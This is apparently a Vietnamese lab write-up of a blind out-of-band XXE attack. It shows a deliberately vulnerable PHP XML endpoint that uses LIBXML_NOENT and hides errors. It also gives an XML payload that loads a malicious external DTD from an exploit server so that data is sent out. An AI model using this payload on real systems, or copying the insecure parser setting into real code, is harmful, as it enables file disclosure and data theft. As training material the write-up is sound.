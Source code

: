 - Em có đoạn check như sau:



```
<?php
ini_set('display_errors', 0);
ini_set('display_startup_errors', 0);
error_reporting(E_ALL);
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $xml = file_get_contents('php://input');
    if ($xml) {
        $data = simplexml_load_string($xml, null, LIBXML_NOENT);
        if ($data !== false) {
            $productId = $data->storeId;

            echo "The productId exists";
        } else {
            echo "Failed to parse XML data";
        }
    } else {
        echo "No XML data received";
    }
} else {

    echo "Only POST requests are allowed";
}
?>


- Lưu ý là phải set không hiển thị thông báo lỗi

ini_set('display_errors', 0);
ini_set('display_startup_errors', 0);
error_reporting(E_ALL);

```

- Khi mà em chọn vật phẩm thì sẽ gửi đến 1 xml đến sever và sẽ nhận được thông báo có tồn tại hay không ở trong thông báo ạ

- Bây giờ em sẽ tạo 1 file dtd mạo danh
![alt text](image.png)

- Entity eval sẽ gọi đến exploits sever của ta và gửi với param x

- Em dùng entity xxe để load dtd mạo danh
- ![alt text](image-1.png)
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://exploit-0ad7006003a1331480fb4d8901b5007a.exploit-server.net/exploit.dtd"> %xxe;]>

<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

- Và em nhận được kết quả 
![alt text](image-2.png)